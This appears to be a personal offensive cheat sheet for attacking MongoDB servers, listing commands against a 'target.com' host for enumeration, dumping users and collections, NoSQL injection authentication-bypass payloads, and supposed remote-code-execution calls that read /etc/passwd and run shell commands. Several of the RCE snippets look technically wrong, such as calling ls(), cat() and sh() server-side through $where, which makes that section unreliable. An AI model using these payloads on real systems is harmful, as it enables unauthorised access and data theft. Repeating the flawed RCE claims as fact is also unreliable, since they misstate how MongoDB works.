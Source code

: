 # mongodb

**Author:** Julien Bongars  
**Date:** 2025-09-25 09:55:18
**Path:**

---

## Connection Methods

**TCP Connection:**

```bash
mongo --port 27017 --host 127.0.0.1
mongo --port 27017 --host target.com
mongo mongodb://target.com:27017/database
```

**Unix Socket:**

```bash
mongo --host /tmp/mongodb-27017.sock
mongo --host /var/run/mongodb/mongodb.sock
```

**With Authentication:**

```bash
mongo -u username -p password --host target.com --port 27017
mongo mongodb://user:pass@target.com:27017/admin
```

## Reconnaissance & Enumeration

**Database Discovery:**

```bash
# List databases
mongo --host target.com --eval "db.adminCommand('listDatabases')"
mongo --host target.com --eval "show dbs"

# List collections in database
mongo --host target.com database --eval "db.listCollections()"
mongo --host target.com database --eval "show collections"
```

**One-liner Enumeration:**

```bash
mongo --host target.com --eval "db.adminCommand('listDatabases').databases.forEach(function(d){print('=== DB: ' + d.name + ' ==='); db=db.getSiblingDB(d.name); db.listCollections().forEach(function(c){print('Collection: ' + c.name); printjson(db[c.name].findOne());})})"
```

## Useful MongoDB Evaluations

**System Information:**

```js
db.version(); // MongoDB version
db.serverStatus(); // Server status
db.isMaster(); // Master/slave info
db.adminCommand("buildInfo"); // Build information
db.stats(); // Database statistics
```

**Authentication & Users:**

```js
db.getUsers(); // List database users
db.adminCommand("usersInfo"); // All users info
db.runCommand({ connectionStatus: 1 }); // Current user privileges
```

**Data Extraction:**

```js
db.listCollections(); // List collections
db.collection.find(); // Dump collection
db.collection.find().limit(5); // First 5 documents
db.collection.find().forEach(printjson); // Pretty print all
db.collection.count(); // Count documents
db.collection.distinct("field"); // Unique values
```

**Administrative Commands:**

```js
db.adminCommand("getCmdLineOpts"); // Configuration options
db.adminCommand("hostInfo"); // Host system info
db.adminCommand("listCommands"); // Available commands
db.adminCommand("getLog", "global"); // View logs
```

## Remote Code Execution

**JavaScript Execution (if enabled):**

```js
// Execute system commands (MongoDB < 4.4 with server-side JS enabled)
db.eval("function() { return ls('/') }");
db.eval("function() { return cat('/etc/passwd') }");

// Newer versions - use $where with system calls
db.collection.find({ $where: "function() { return ls('/etc') }" });
```

**MapReduce RCE:**

```js
// Execute code via MapReduce (deprecated but sometimes available)
db.collection.mapReduce(
  function () {
    emit(1, ls("/etc"));
  },
  function (key, values) {
    return values;
  },
  { out: { inline: 1 } },
);
```

**Server-Side JavaScript (if enabled):**

```js
// Check if server-side JS is enabled
db.adminCommand("getParameter", "*").javascriptEngine;

// Execute shell commands
db.eval("function() { return sh('whoami') }");
db.eval("function() { return sh('cat /etc/passwd') }");
```

**NoSQL Injection Payloads:**

```js
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

// Data extraction
{"$where": "this.password.length > 0"}
{"$where": "this.username.match(/admin/)"}
```

## File Operations

**GridFS File Access:**

```js
// List GridFS files
db.fs.files.find();
db.fs.chunks.find();

// Read file content
var file = db.fs.files.findOne({ filename: "config.txt" });
db.fs.chunks
  .find({ files_id: file._id })
  .sort({ n: 1 })
  .forEach(function (chunk) {
    print(chunk.data.toString());
  });
```

## Privilege Escalation

**Role Enumeration:**

```js
db.runCommand({ rolesInfo: 1 }); // List all roles
db.runCommand({ usersInfo: 1 }); // List all users with roles
```

## Common Ports & Default Credentials

**Ports:**

- 27017 (default)
- 27018 (shard)
- 27019 (config server)
- 28017 (web interface)

**Default Credentials:**

- No authentication by default
- Check for blank passwords
- Common usernames: admin, root, mongodb
